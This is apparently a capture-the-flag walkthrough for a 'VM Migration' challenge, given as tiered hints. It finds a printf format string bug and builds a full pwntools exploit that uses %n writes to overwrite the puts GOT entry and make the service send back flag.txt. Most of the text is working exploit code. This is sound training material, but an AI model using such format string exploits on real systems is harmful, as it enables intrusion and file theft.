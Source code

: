 VM Migration
============

## What to do?

Cost: 0%

Your task here is to analyze the source code, find a vulnerablity and write an exploit!
[pwntools](https://github.com/Gallopsled/pwntools)

## Finding the vulnerability

Cost: 10%

While reading the source code, it's easy to notice that `printf` is called with
a partially user controlled argument in line 79. The argument string is created
in line 75, and there is no limit on what the string can contain after the
"MIGRATE " string. This means that it is a classic printf vulnerability.

## Triggering the bug and exploit boilerplate

Cost: 20%

The skeleton of the exploit connects to the service, and specify a VM name that contains a format string using [pwntools](https://github.com/Gallopsled/pwntools):

    from pwn import *

    IP = '127.0.0.1'
    PORT = 8888

    r = remote(IP, PORT)

    r.sendlineafter('Select an option:', '1')
    r.sendlineafter('Enter the name of the VM to migrate', '%n%n%n')
    r.sendlineafter('Enter the destination IP and port (Format: <ip>:<port>)',
                    '1.1.1.1:10')

    r.interactive()

## Writing memory

Cost: 40%

The first step on the road to the successful exploit is turning the printf
vulnerability into an arbitrary memory write primitive that we can use later.

We will do it one byte at a time in this example, but it can be simplified by
writing two byte at a time. Finding out how to do that is left to the reader.

Finding the right indexed for the `%n` formatter needs some experimentation.
For this, using a pattern like `%x %x %x %x ...` first is often useful, since
it allows us to see what's in the Nth position on the stack from printf's
perspective.

The augmented exploit code:

    from pwn import *

    IP = '127.0.0.1'
    PORT = 8888

    r = remote(IP, PORT)

    where = 0x41414141 # Modify it to a real address to avoid segfault
    what = 0x42424242
    what_bytes = [ord(c) for c in p32(what)]
    what = what_bytes

    r.sendlineafter('Select an option:', '1')
    r.sendlineafter('Enter the name of the VM to migrate',
        # Addresses of the bytes of the puts GOT entry
        p32(where + 0) +
        p32(where + 1) +
        p32(where + 2) +
        p32(where + 3) +
        
        # Number of printed bytes so far: 0x18
        # Setting the puts pointer to what with the wraparound technique:
        '%6$0' + str((what[0] - 0x18    + 0x100) % 0x100) + 'd' + '%9$n' +
        '%6$0' + str((what[1] - what[0] + 0x100) % 0x100) + 'd' + '%10$n' +
        '%6$0' + str((what[2] - what[1] + 0x100) % 0x100) + 'd' + '%11$n' +
        '%6$0' + str((what[3] - what[2] + 0x100) % 0x100) + 'd' + '%12$n'
    )
    r.sendlineafter('Enter the destination IP and port (Format: <ip>:<port>)',
                    '1.1.1.1:10')

    r.interactive()

## What to write

Cost: 20%

Writing memory is a nice primitive, but now we need to find out what to use it
for. The easiest target is usually the GOT (Global Offset Table): it contains
writeable function pointer, and in this case, it is at a fixed location.

Our goal is to replace a function pointer with an other function pointer. The
replacement pointer may point to the attacker's shellcode, or, in some simpler
cases, it could point to an existing library function, or function present in
the program. In this case, a function defined in the program is sufficient as
replacement.

The `socket_send_file` function would be a perfect replacement: it sends the
specified file (in this case, it would be 'flag.txt') through the socket to us.

The only remaining question is: what to replace? We need a function that will
be called with a string argument, where the argument is controlled by us. Let's
have a look at `puts`: it's only called once, and the argument is attacker
controlled: perfect candidate!

## Complete solution


    from pwn import *

    IP = '127.0.0.1'
    PORT = 8888

    r = remote(IP, PORT)

    puts_got = 0x0804B030
    socket_send_file = 0x0804893C
    socket_send_file_bytes = [ord(c) for c in p32(socket_send_file)]

    r.sendlineafter('Select an option:', '1')
    r.sendlineafter('Enter the name of the VM to migrate',
        # Addresses of the bytes of the puts GOT entry
        p32(puts_got + 0) +
        p32(puts_got + 1) +
        p32(puts_got + 2) +
        p32(puts_got + 3) +
        
        # Number of printed bytes so far: 0x18
        # Setting the puts pointer to socket_send_file with the wraparound technique:
        '%6$0' + str((socket_send_file_bytes[0] - 0x18                      + 0x100) % 0x100) + 'd' + '%9$n' +
        '%6$0' + str((socket_send_file_bytes[1] - socket_send_file_bytes[0] + 0x100) % 0x100) + 'd' + '%10$n' +
        '%6$0' + str((socket_send_file_bytes[2] - socket_send_file_bytes[1] + 0x100) % 0x100) + 'd' + '%11$n' +
        '%6$0' + str((socket_send_file_bytes[3] - socket_send_file_bytes[2] + 0x100) % 0x100) + 'd' + '%12$n'
    )
    r.sendlineafter('Enter the destination IP and port (Format: <ip>:<port>)', '1.1.1.1:10')

    r.sendlineafter('Select an option:', '1')
    r.sendlineafter('Enter the name of the VM to migrate', 'flag.txt\n\x00');
    r.sendlineafter('Enter the destination IP and port (Format: <ip>:<port>)\n', '1.1.1.1:10')
    print r.recvuntil('Successfully migrated VM')[:-len('Successfully migrated VM')]

    r.sendlineafter('Select an option:', '2')
    r.close()